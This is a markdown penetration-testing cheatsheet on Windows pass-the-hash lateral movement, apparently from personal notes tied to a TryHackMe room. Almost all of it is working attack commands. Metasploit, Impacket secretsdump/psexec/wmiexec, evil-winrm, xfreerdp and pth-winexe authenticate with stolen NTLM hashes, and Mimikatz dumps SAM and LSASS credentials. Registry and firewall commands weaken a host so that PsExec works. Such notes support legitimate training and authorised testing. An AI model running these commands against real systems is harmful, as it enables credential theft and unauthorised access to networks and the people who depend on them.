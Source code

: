 # Pass the Hash


Pass the hash technique allow an attacker to authenticate to a remote system or service using a user's NTLM hash instead of plain-text password.

**Does not work for Kerberos Authentication**

PsExec requires access to the special administrative share named `Admin$`, thus also local administrative rights. There many tools for performing a similar to legitimate use of connecting with [[SMB]]. [[Metasploit]] has:
```bash
post/windows/gather/hashdump
exploit/windows/smb/psexec
```

Another method:
```bash
pth-winexe -U $username%$NT:$LM //$ip cmd
```

[[Impacket-Cheatsheet]] with:
```bash
# Dump secrets for more ntlm
secretsdump.py $user@$ip -hashes $ntml
# Laterally move 
# Beware the requirements of PsExec
psexec -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
# Requires port 445 for SMBv3 to be open on $targetIP
impacket-wmiexec -hashes :$NTpartofTheHash Administrator@$targetIP
```

Or login with [[evil-winrm-Cheatsheet]] using  `-H` 
```bash
evil-winrm -i $ip -u $user -H $ntml
```

[[RDP]] with `xfreerdp` with:
```bash
xfreerdp /v:$IP /u:DOMAIN\\Administrator /pth:$ntml
```

With [[Mimikatz-Cheatsheet]]
```powershell
privilege::debug
token::elevate
# Dump the SAM
lsadump::sam 
# Extract NTLM hashes from LSASS memory
sekurlsa::msv
# Revert Token to then use the hash from the above command's output
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```


[[Sysinternals]] to move laterally. **Beware** - `PsExec.exe` ([[Sysinternals-Psexec]])  writes `psexecsvc.exe` to `C;\Windows` of a remote machine to create and spawn service then run `$cmd` as a child process of `psexecsvc.exe`. 
```powershell
# $user MUST be a part of the Administrators lcoal group
# ADMIN$ share must be avalilable 
# File and Printer sharing must be ON!
.\PsExec64.exe -i  \\$ComputerName -u $domain\$user -p '$password' $cmd
```


#### Enabling PsExec requirements

Enable `ADMIN$` share 
```powershell
# With net commands
net share ADMIN$ 
# Remove share
net share ADMIN$ /delete


# With the registry - Requires Reboot 
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
# pwsh registery interaction
New-ItemProperty -Name AutoShareWks -Path HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters -Type DWORD -Value 0
# Reboot Reboot!
shutdown /r /t 0
```

`Netsh` to control File and Printer Sharing - [elevenforum](https://www.elevenforum.com/t/turn-on-or-off-file-and-printer-sharing-in-windows-11.4579/)
```
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes

netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=No
```

In an Administrative PowerShell session - [elevenforum](https://www.elevenforum.com/t/turn-on-or-off-file-and-printer-sharing-in-windows-11.4579/)
```powershell
# Turn on File and Printer Sharing
# 
# Apply to all network profiles
Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled True -Profile Any​
# Apply to "Domain" network profile
Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled True -Profile Domain
# Apply to "Private" network profile
Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled True -Profile Private
# Apply to "Public" network profile
Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled True -Profile Public
# Turn off File and Printer Sharing
# 
Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled False -Profile Any​
# Apply to "Domain" network profile
Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled False -Profile Domain
# Apply to "Private" network profile
Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled False -Profile Private
# Apply to "Public" network profile
Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled False -Profile Public
```
## Reference

[THM Lateral movement and pivoting](https://tryhackme.com/room/lateralmovementandpivoting)
[Ippsec.rocks](https://ippsec.rocks/?#)